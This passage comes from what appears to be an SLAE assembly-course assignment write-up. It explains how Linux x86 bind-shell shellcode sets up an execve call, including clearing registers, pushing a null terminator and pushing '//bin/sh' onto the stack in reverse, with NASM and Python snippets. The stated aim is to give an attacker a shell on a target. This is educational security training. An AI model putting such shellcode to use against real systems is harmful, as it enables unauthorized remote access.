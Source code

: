 ```bash
       these  strings should contain the filename associated with the file being executed.  envp is an
       array of strings, conventionally of the form key=value, which are passed as environment to  the
       new program.  Both argv and envp must be terminated by a NULL pointer.  The argument vector and
       environment can be accessed by the called program's main function, when it is defined as:

           int main(int argc, char *argv[], char *envp[])
```

This objective is achieved when a connection is made to the newly created bind port, in turn excuting an interactive shell for an attacker on the target machine.

This instuction set will load the string '/bin/sh' onto the stack in reverse order, since the stack grows from high to low memory.

The execve syscall works with Null pointers and terminators, which requires a terminator to be placed onto the stack after clearing the EAX register and setting the value to '0':

```nasm
	xor eax, eax	; clear register
	push eax	; terminator placed onto the stack with value of 0
```

Before placing the string '/bin/sh' onto the stack (reverse order), it is important to remember to avoid Null Bytes and add padding where possible in the shellcode. 

To ensure that the string is divisible by 4, an additional character '/' is added to increase the characters from 7 to 8 resulting in '//bin/sh'.

Python can be used to interpret and extract the hex address, along with splitting the string up into 4 byte halves (clean hex address to use for the calls):

```python
osboxes@osboxes:~/Downloads/SLAE$ python
Python 2.7.3 (default, Feb 27 2014, 20:00:17) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> a = '//bin/sh'
>>> a[::-1]
'hs/nib//'
>>> import binascii
>>> binascii.hexlify(b'hs/n')
'68732f6e'
>>> binascii.hexlify(b'ib//')
'69622f2f'
```

After the Null terminator has been pushed onto the stack to null terminate the '//bin/sh argument', the hex values for '//bin/sh' can then be pushed onto the stack (reverse order):

```nasm
	push 0x68732f6e ; push the end of "//bin/sh", 'hs/n'
        push 0x69622f2f ; push the beginning of "//bin/sh", 'ib//'
```


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1